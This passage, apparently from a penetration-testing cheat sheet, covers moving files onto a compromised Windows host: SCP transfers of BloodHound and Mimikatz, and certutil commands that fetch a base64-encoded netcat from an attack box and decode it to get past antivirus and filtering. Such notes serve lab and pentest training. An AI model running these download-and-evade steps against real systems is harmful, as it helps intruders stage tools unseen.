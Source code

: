 ```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip	
```

* Download a file using SCP

```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe	
```

## Windows Specific Downloads

### CertUtil.exe

* Windows has a built-in command line program called CertUtil.exe which is installed as part of Certificate Services and can be used to manage certificates in Windows.
* CertUtil is also known as living off land LOL binary which is a trusted preinstalled system tool.
* It can even bypass security features by base64 encoding the malware.

```
certutil -urlcache -split -f [url] [filename.extension]
certutil -urlcache -f [url] [filename.extension] [filename.extension]
```

* `-urlcache` Displays or deletes URL cache entries
* `-f` Forces fetching a specific URL and updating the cache
* `-split` Split embedded ASN.1 elements, and saves files on disk
* Using the encoding may help bypass security controls in certutil.
* Using the `-decode` option we can download a Base-64 encoded malicious executable such as a text file and decode the executable to disk.
* This can bypass antivirus, edge devices and filtering.
* First we need to base64 encode the netcat executable.

```
certutil.exe -encode [inputfilename] [encoded output filename]
```

* To verify that the nc.txt file contains text, we can run the following command to print the first 10 lines to the terminal:

```
powershell -command "Get-Content nc.txt -Head 10"
```

* Now we have to transfer the text file to the target and decode it back to an executable.

```
certutil.exe -urlcache -split -f "http://[attack box ip]/nc.txt" nc.txt
```

* And the following command decodes the base64

```
certutil.exe -decode nc.txt nc.exe
```

### Powershell downloads:System.Net.WebClient

* First example uses .NET class System.Net.WebClient.
* The following commands create a Powershell script on the remote Windows machine that can be used to download the file from the attack box:

